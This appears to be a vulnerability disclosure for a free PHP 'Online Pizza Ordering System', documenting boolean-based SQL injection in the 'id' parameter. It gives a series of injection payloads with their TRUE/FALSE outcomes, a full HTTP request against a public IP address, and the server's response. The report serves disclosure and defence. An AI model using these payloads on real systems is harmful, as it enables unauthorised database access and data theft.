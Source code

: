 CMS source code url: https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

URL: http://127.0.0.1/php-opos/index/php
Perameter: id

Attack Details:
URL encoded GET input id was set to -1' OR 3*2*1=6 AND 000207=000207 or 'IBKdIxz1'='

Tests performed:
-1' OR 2+207-207-1=0+0+0+1 or 'IBKdIxz1'=' => TRUE
-1' OR 3+207-207-1=0+0+0+1 or 'IBKdIxz1'=' => FALSE
-1' OR 3*2<(0+5+207-207) or 'IBKdIxz1'=' => FALSE
-1' OR 3*2>(0+5+207-207) or 'IBKdIxz1'=' => FALSE
-1' OR 2+1-1+1=1 AND 000207=000207 or 'IBKdIxz1'=' => FALSE
-1' OR 3*2=5 AND 000207=000207 or 'IBKdIxz1'=' => FALSE
-1' OR 3*2=6 AND 000207=000207 or 'IBKdIxz1'=' => TRUE
-1' OR 3*2*0=6 AND 000207=000207 or 'IBKdIxz1'=' => FALSE
-1' OR 3*2*1=6 AND 000207=000207 or 'IBKdIxz1'=' => TRUE

HTTP Request:

GET /php-opos/index.php?id=-1'%20OR%203*2*1=6%20AND%20000207=000207%20or%20'IBKdIxz1'='&page=category HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.144.217.51/php-opos/
Cookie: PHPSESSID=1k9bgtvpcu4sm6sveik4lo09cv
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Host: 192.144.217.51
Connection: Keep-alive

HTTP Response:

HTTP/1.1 200 OK
Date: Thu, 16 Feb 2023 15:10:28 GMT
Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.2.0
X-Powered-By: PHP/8.2.0
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=58
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 17281

<!DOCTYPE html>
<html lang="en">
    
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <meta name="description" content="" />
        <meta name="author" content="" />
        <title>Online Pizza Ordering System - PHP</title>
        <!-- Favicon-->
        <link rel="icon"  href="assets/defaults/pizza-logo.png" />
        <!-- Font Awesome icons (free version)-->
        <script src="https://use.fontawesome.com/releases/v5.13.0/js/all.js" crossorigin="anonymous"></script>
        <!-- Google fonts-->
        <link href="https://fonts.googleapis.com/css?family=Merriweather+Sans:400,700" rel="stylesheet" />
        <link href="https://fonts.googleapis.com/css?family=Merriweather:400,300,300italic,400italic,700,700italic" rel="stylesheet" type="text/css" />
        <!-- Third party plugin CSS-->
        <link href="https://cdnjs.cloudflare.com/ajax/libs/magnific-popup.js/1.1.0/magnific-popup.min.css" rel="stylesheet" />